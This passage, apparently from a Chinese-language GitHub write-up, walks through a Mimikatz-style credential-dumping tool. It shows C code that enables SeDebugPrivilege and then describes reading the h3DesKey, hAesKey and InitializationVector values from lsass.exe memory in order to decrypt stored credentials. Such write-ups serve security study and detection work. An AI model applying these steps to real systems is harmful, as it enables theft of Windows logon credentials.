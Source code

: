 ```c
	// Enable the privilege or disable all privileges.  
	if (!AdjustTokenPrivileges(
		hToken,
		FALSE,
		&tp,
		sizeof(TOKEN_PRIVILEGES),
		(PTOKEN_PRIVILEGES)NULL,
		(PDWORD)NULL))
	{
		printf("AdjustTokenPrivileges error: %u\n", GetLastError());
		CloseHandle(hToken);
		return FALSE;
	}

	if (GetLastError() == ERROR_NOT_ALL_ASSIGNED)
	{
		printf("The token does not have the specified privilege. \n");
		CloseHandle(hToken);
		return FALSE;
	}

	CloseHandle(hToken);
	return TRUE;
}
```

此函数首先打开当前进程的访问令牌，然后查找`SeDebugPrivilege`的`LUID`，接着设置`TOKEN_PRIVILEGES`结构体中的`PrivilegeCount`和`Privileges`字段，最后调用`AdjustTokenPrivileges`函数来启用或禁用特权。
如果启用成功，函数返回`TRUE`，否则返回`FALSE`，并打印出错误信息。


### 运行结果

![alt text](images/result1.png)

可以看到，`SeDebugPrivilege`特权已成功启用。


## 2. LocateUnprotectLsassMemoryKeys()
此函数的作用是从`lsass.exe`内存中读取出后续对凭据进行AES解密或是3DES解密使用的密钥，即定位`lsasrv.dll`中的三个全局变量，符号名为`h3DesKey`、`hAesKey`和`InitializationVector`并读出实际值，并赋值相应的全局变量`g_sekurlsa_IV`、`g_sekurlsa_AESKey`和`g_sekurlsa_3DESKey`。
